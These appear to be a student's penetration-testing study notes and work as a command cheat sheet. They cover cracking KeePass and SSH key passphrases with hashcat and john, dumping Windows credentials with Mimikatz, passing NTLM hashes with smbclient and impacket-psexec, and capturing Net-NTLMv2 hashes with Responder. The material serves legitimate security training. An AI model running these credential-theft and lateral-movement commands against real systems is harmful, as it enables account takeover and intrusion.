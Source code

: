 ## Section 2 Password Cracking Fundamentals
### 15.2.4 Password Manager
- Command to find keepass kdbx files:
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
- Cracking with keepass with john
		1. Get the kdbx file and remove "Database." string from the firstline
```
keepass2john <FILE> keepass.hash
```
```
hashcat --help | grep -i "keepass"
```
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
### 15.2.5 SSH Private Key Passphrase
- Cracking ssh id_rsa file
```
chmod 600 id_rsa
```
```
ssh2john id_rsa > ssh.hash 
```
```
hashcat -h | grep -i "ssh"
```
- Remove the leading strings/characters in the hash file and run hashcat OR make sure the following is at the top of the ssh.rule file first
```
[List.Rules:sshRules]
```
- Add ssh rules to john.conf with 
```
sudo sh -c 'cat <HASHCAT_RULE_FILE> >> /etc/john/john.conf'
```
- Crack it with john
```
john --wordlist=<WORDLIST> --rules <RULES> <HASHFILE>
```
## Section 3 Working with Password Hashes
### 15.3.1 Cracking NTLM
- Good rule for NTLM
```
hashcat -m 1000 <HASHFILE> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Mimikatz commands to get SeDebugPrivilege access rights enabled use 
```
privilege::debug
```
- Extract plaintext passwords with password hashes from all available sources with 
```
sekurlsa::logonpasswords
```
- Extract NTLM hashes from the SAM with BUT FIRST USE the following to elevate to SYSTEM user privileges
```
token::elevate
```
```
lsadump::sam
```
### 15.3.2 Passing NTLM
- Pass the hash with smbclient 
```
smbclient \\\\IP\\SHARE -U <USERNAME> --pw-nt-hash <HASH>
```
- PsExec with impacket and NTLM_V1
```
impacket-psexec -hashes 00000000000000000000000000000000:<HASH> <USERNAME>@<IP>
```
### 15.3.3 Cracking Net-NTLM_V2
- Responder can capture authentication handshakes and NTLM hashes
	- To run it you have to specify the interface with the following to capture and print the hash for you to crack or use when you try to use SMB or another vector to connect
```
sudo responder -l <INTERFACE>
```
- Vector to connect with the following from a target where you have a command shell
```
dir \\<IP>\secrets
```
## Exercises To-Do

- [ ] 2.1.1 (page 20)